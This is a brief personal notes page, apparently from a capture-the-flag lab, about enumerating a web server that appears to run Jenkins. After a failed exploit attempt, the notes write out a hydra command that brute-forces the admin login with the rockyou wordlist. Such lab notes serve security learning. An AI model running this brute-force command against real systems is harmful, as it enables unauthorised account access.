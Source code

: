 ![Pasted image 20251008175931.png](thm_pics/Pasted%20image%2020251008175931.png)

- ahh classic robots.txt, that means its a webserver

![Pasted image 20251008180035.png](thm_pics/Pasted%20image%2020251008180035.png)

![Pasted image 20251008180143.png](thm_pics/Pasted%20image%2020251008180143.png)

- we can try this exploit
- set RHOSTs to 127.0.0.1 and RPORT 8080

![Pasted image 20251008180245.png](thm_pics/Pasted%20image%2020251008180245.png)

- not exploitable
- maybe we can just **use hydra to brute force for admin user**
- Command : `hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 8080 127.0.0.1 http-form-post "/j_acegi_security_check:j_username=admin&j_password=^PASS^:Invalid"`
